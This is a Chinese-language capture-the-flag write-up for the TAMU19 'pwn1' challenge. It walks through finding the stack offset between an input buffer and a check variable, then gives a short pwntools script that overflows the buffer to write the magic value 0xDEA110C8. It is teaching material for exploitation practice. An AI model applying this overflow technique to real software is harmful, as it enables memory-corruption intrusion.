

# 2.1 Tamu19 pwn1
这个案例和前一个boi的一样，首先查看elf的开启了哪些安全特性


canary没有开启，可以直接溢出覆盖栈地址

反汇编查看pwn1的代码


从代码中可以看到，需要连续输入3次正确的结果，第一第二次可以跳过

第三个判断为v5 == -559869752，一个16进制数，在汇编代码中可以得到这个数为0xDEA110C8


我们要做的就是覆盖掉v5（默认值为0）这个地址上的数据，把值改成0xDEA110C8，可控的变量为s，要修改的变量为var\_10，查看这两个变量的偏移地址

var\_10 偏移地址为0x10, 类型为dd，占用4个字节


s 偏移地址为0x3B, 类型为db， 占用1个字节


gdb中内存的位置如下：




所以两者直接偏移地址相差为0x2b，所以要覆盖掉var\_10的值，就绪要填充 0\* 0x2b + 4byte(0xDEA110C8) 的数据，使用pwntools来生成，exploit如下

```python
#!/usr/bin/env python

from pwn import *

payload = '0' * 0x2b
payload += p32(0xDEA110C8)

target = process('./pwn1')

p1 = 'Sir Lancelot of Camelot'

p2 = 'To seek the Holy Grail.'

target.sendline(p1)
target.sendline(p2)
target.sendline(payload)

target.interactive()
```
